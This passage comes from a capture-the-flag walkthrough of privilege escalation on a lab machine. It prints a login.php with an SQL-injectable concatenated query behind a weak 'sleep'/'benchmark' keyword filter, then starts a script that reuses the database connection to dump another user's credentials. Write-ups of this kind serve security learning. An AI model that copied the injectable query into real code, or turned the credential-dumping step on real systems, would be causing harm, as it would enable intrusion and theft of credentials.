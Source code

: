 ```
    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}
```
Get discouraged at this part as you find out you can't do much with the `theseus`'s SQL credentials here. But don't falter! Because here again we can abuse our privilege as `www-data`. This will be our magic :)

### Priv: www-data -> theseus
Now take a look inside `login.php`:
```
$ cat /var/www/Magic/login.php
<?php
session_start();
require 'db.php5';
if (!empty($_POST['username'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];
    if (strpos( strtolower($username), 'sleep') === false && strpos( strtolower($password), 'sleep') === false && strpos( strtolower($username), 'benchmark') === false && strpos( strtolower($password), 'benchmark') === false) {
        try {
            $pdo = Database::connect();
            $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
            $pdo->setAttribute(PDO::ATTR_DEFAULT_FETCH_MODE, PDO::FETCH_OBJ);
            $stmt = $pdo->query("SELECT * FROM login WHERE username='$username' AND password='$password'");
            $user = $stmt->fetch();
[...]
```
Realize here that we've got working code for interacting with the database! So let's write our own `reveal.php` that will query the database and simply print out `theseus` credentials (evil laugh).
```
$ cat > reveal.php << "EOF"
<?php
require 'db.php5';
$pdo = Database::connect();
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
$pdo->setAttribute(PDO::ATTR_DEFAULT_FETCH_MODE, PDO::FETCH_OBJ);
```